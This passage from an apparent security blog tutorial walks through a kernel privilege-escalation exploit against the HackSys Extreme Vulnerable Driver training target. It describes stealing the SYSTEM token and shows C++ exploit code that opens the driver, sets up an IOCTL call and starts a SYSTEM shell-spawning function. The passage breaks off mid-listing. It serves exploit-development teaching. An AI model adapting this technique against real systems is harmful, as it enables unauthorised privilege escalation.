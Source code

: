 Whew! That's quite a lot to take in, if you have to reread the code 100x, you are not alone. Thanks again to tekwizz123. 

The rest of the code is similar to previous exploits, we lifted the token stealing shellcode straight from b33f's aforementioned blogpost. We call `DeviceIoControl` the same way we have been in Python. The only difference from there is really the use of the `CreateProcessA` API which we used to just gloss over in Python by calling `popen()` (which we learned from [rootkits.xyz](https://rootkits.xyz/blog/2017/08/kernel-stack-overflow/)). This simply starts a `cmd.exe` shell as `nt authority/system` at the tail end of our exploit when our token has been overwritten. If you want more information about this API, refer back to my Win32 shellcoding [posts](https://h0mbre.github.io/Win32_Reverse_Shellcode/#)!

Completed code: 
```cpp
#include <Windows.h>
#include <winternl.h>
#include <stdio.h>
#include <iostream>

//
// Defining just our driver name that it uses for IoCreateDevice and also the IOCTL code we use to reach our vulnerable function
#define DEVICE_NAME     "\\\\.\\HackSysExtremeVulnerableDriver"
#define IOCTL           0x22202F

//
// Here we are creating a prototype of the NtMapUserPhysicalPages, we are using the struct member types that tekwizz123 uses, I couldn't get any other definition to work
typedef NTSTATUS(WINAPI* _NtMapUserPhysicalPages)(
	PINT BaseAddress,
	UINT32 NumberOfPages,
	PBYTE PageFrameNumbers);

//
// This function simply retrieves a handle to HEVD, this should be standard at this point based on our previous exploits; however, you can see how much easier it is
// to use Visual C++ and have access to the keywords vs. finding constants for these values and using Python C-types
//
HANDLE Get_Handle()
{
	HANDLE HEVD = CreateFileA(DEVICE_NAME,
		FILE_READ_ACCESS | FILE_WRITE_ACCESS,
		FILE_SHARE_READ | FILE_SHARE_WRITE,
		NULL, OPEN_EXISTING,
		FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
		NULL);

	if (HEVD == INVALID_HANDLE_VALUE)
	{
		std::cout << "[!] Unable to retrieve handle for HEVD, last error: " << GetLastError() << "\n";
		exit(1);
	}

	printf("[*] Successfully retrieved handle to HEVD: %X\n", HEVD);
	return HEVD;
}

void Spawn_Shell()
{
	PROCESS_INFORMATION Process_Info;
	ZeroMemory(&Process_Info, sizeof(Process_Info));
	STARTUPINFOA Startup_Info;
	ZeroMemory(&Startup_Info, sizeof(Startup_Info));
```